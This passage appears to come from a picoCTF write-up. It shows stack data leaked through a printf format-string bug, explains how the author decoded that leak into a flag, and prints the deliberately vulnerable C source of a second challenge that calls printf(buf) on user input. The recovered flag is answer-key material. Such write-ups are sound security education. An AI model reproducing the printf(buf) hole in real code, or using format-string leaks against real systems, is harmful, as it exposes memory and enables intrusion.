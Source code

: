 ```
Here's your order: 402118,0,79beef7a5a00,0,1592880,a347834,7ffc5f170cb0,79beef596e60,79beef7bb4d0,1,7ffc5f170d80,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,31655f673431665f,7d383130386531,7,79beef7bd8d8,2300000007,206e693374307250,a336c797453,9,79beef7cede9,79beef59f098,79beef7bb4d0,0,7ffc5f170d90,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

We can take the stack and plug it in to cyberchef for easy processing. By removing anything that doesn't look like a hex representation of printable characters, we get the 5 hex numbers: `7b4654436f636970,355f31346d316e34,3478345f33317937,31655f673431665f,7d383130386531`

Turning the hex representation to printable characters, we get the string: `{FTCocip5_14m1n44x4_31y71e_g41f_}8108e1`. Because of endianness shenanigans, we need to reverse each 64 bit number, resulting in `1e8018}_f14g_e17y13_4x44n1m41_5picoCTF{`, then reverse the order of each number, resulting in the final flag: `picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}`

# Format String 2
The source code for this challenge reveals that all we need to do is set the `sus` variable to `0x67616c66` which is the byte representation of `flag`.

```c
#include <stdio.h>
  
int sus = 0x21737573;
  
int main() {
  char buf[1024];
  char flag[64];
  
  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);
  
  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");
  
    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);
  
    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }
```
